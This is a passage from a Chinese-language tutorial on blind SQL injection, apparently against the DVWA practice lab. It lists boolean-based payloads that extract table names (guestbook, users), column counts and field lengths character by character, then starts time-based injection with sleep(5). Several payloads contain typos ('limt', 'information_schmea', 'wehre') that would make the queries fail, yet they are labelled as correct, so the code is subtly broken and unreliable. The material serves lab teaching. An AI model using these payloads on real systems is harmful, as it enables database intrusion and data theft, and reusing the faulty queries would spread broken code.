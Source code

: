 说明第一个表名长度为9。同理猜测第二个表名长度。

猜测表名：

```
1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limt 0,1),1,1))>97 # //正确
1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limt 0,1),1,1))<122 # //正确
1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limt 0,1),1,1))<109 # //正确
...
1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limt 0,1),1,1))<103 # //错误
1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limt 0,1),1,1))>103 # //错误
```

得第一个表名的第一个字符为 g。

同理逐步得两个表名分别为：guestbook，users。

4.猜测表中的字段名：

猜测表中的字段数量：

```
1' and (select count(column_name) from information_schmea.columns where table_name='users')=1 #  //错误
...
1' and (select count(column_name) from information_schema.columns wehre table_name='users')=8 #  //正确
```

得表users有8个字段。

猜测字段名的长度：

```
1' and length(substr((select column_name from information_schema.columns where table_name='users' limit 0,1),1))=1 #  //错误
...
1' and length(substr((select column_name from information_schema.columns where table_name='users' limit 0,1),1))=7 #  //正确
```

得到第一个字段名长度为7。同理猜测出所有的字段名长度。

5.猜测数据：

与上面基本一致了，先猜测数据长度，在逐个猜测字符。

**延时注入：**

1.判断是否存在注入，注入是字符型还是数字型。

```
1' and sleep(5) #  //感觉到明显延迟；
1 and sleep(5) #  //没有延迟；
```
